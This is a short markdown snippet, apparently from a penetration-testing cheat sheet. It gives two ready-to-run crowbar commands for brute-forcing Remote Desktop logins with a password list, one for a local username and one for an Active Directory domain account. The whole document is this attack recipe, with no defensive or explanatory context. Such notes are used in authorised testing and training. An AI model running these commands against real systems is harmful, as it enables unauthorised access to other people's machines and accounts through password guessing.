 ## brute force RDP
```bash
crowbar -b rdp -n 1 -s $IP/32 -u username -C ./passwords
```

### active directory domain joined
```
crowbar -b rdp -n 1 -s $IP/32 -u username@DOMAIN.local -C ./passwords
```
